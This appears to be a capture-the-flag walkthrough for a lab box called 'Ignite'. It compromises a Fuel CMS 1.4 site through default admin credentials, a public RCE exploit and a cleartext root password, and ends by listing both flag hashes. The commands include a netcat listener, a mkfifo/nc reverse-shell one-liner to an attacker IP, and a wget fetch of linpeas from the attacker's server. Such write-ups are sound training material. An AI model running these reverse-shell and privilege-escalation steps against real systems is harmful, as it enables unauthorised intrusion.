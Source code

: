 # Ignite - Easy

```shell
nmap -T4 -p- -A -v 10.10.158.62

#using RCE exploit from Exploit-DB
#setup listener
nc -nvlp 4444
#we get reverse shell

python -c 'import pty;pty.spawn("/bin/bash")'

ls /home

ls -la /home/www-data
#get user flag

cd /tmp

#get linpeas from attacker machine server
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#use cleartext password found
su root
#it works

cat /root/root.txt
```

* Open ports & services:

  * 80 - http - Apache httpd 2.4.18 (Ubuntu)

* We have the webpage for Fuel CMS (v1.4) - it is unchanged since its setup.

* Scrolling down, we can see that we have creds admin:admin for /fuel

* Logging into /fuel, we are faced with a dashboard for Fuel CMS.

* We can search for Fuel CMS 1.4 exploits - we get RCE exploits.

* Using an RCE exploit from Exploit-DB, we can get reverse shell with the help of this one-liner:

    ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.31.212 4444 >/tmp/f```

* We can use linpeas to check for privesc.

* We get a password left in cleartext in a config file - mememe.

* When we try this password for root, we get root shell.

```markdown
1. user.txt - 6470e394cbf6dab6a91682cc8585059b

2. root.txt - b9bbcb33e11b80be759c4e844862482d
```
